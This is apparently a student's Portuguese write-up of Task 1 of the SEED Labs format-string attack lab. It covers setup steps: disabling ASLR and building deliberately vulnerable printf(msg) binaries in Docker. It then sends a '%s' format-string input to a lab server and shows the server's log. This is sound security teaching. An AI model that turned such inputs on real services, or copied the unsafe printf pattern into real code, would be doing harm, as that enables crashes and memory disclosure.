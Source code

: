 # SEED Labs - Format String Attack Lab

## Task 1

Primeiro, fazemos o setup do ambiente.

```
[11/07/22]seed@VM:~/.../Labsetup$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
[11/07/22]seed@VM:~/.../Labsetup$ cd server-code/
[11/07/22]seed@VM:~/.../server-code$ make
gcc -o server server.c
gcc -DBUF_SIZE=100 -z execstack  -static -m32 -o format-32 format.c
format.c: In function ‘myprintf’:
format.c:44:5: warning: format not a string literal and no format arguments [-Wformat-security]
   44 |     printf(msg);
      |     ^~~~~~
gcc -DBUF_SIZE=100 -z execstack  -o format-64 format.c
format.c: In function ‘myprintf’:
format.c:44:5: warning: format not a string literal and no format arguments [-Wformat-security]
   44 |     printf(msg);
      |     ^~~~~~
[11/07/22]seed@VM:~/.../server-code$ make install
cp server ../fmt-containers
cp format-* ../fmt-containers
[11/07/22]seed@VM:~/.../server-code$ docker-compose build
Building fmt-server-1
Step 1/6 : FROM handsonsecurity/seed-ubuntu:small
 ---> 1102071f4a1d
Step 2/6 : COPY server    /fmt/
 ---> Using cache
 ---> 80c72cf9a22f
Step 3/6 : ARG ARCH
 ---> Using cache
 ---> f9239525378c
Step 4/6 : COPY format-${ARCH}  /fmt/format
 ---> Using cache
 ---> c4d0d16c1058
Step 5/6 : WORKDIR /fmt
 ---> Using cache
 ---> 88c7018ea532
Step 6/6 : CMD ./server
 ---> Using cache
 ---> 51e6ef51b72d

Successfully built 51e6ef51b72d
Successfully tagged seed-image-fmt-server-1:latest
Building fmt-server-2
Step 1/6 : FROM handsonsecurity/seed-ubuntu:small
 ---> 1102071f4a1d
Step 2/6 : COPY server    /fmt/
 ---> Using cache
 ---> 80c72cf9a22f
Step 3/6 : ARG ARCH
 ---> Using cache
 ---> f9239525378c
Step 4/6 : COPY format-${ARCH}  /fmt/format
 ---> Using cache
 ---> 5bca17c905f0
Step 5/6 : WORKDIR /fmt
 ---> Using cache
 ---> 18e7c4bac7bb
Step 6/6 : CMD ./server
 ---> Using cache
 ---> cba6ae2644c3

Successfully built cba6ae2644c3
Successfully tagged seed-image-fmt-server-2:latest
[11/07/22]seed@VM:~/.../server-code$ docker-compose up
Starting server-10.9.0.5 ... done
Starting server-10.9.0.6 ... done
Attaching to server-10.9.0.5, server-10.9.0.6
```  

Vamos escrever no standard input a string "%s". A função `myprintf` vai chamar o equivalente a:
```c
 printf("%s");
 ```
Fazer esta chamada, sem passar os argumentos necessários à função `printf`, faz com que o programa trate um endereço na stack como um endereço onde uma string deveria estar guardada. O mais provável é que não seja possível ler uma string.
```
[11/07/22]seed@VM:~/.../Labsetup$ echo %s | nc 10.9.0.5 9090
```

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd0f0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 3 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd018
server-10.9.0.5 | The target variable's value (before): 0x11223344
```

# CTF
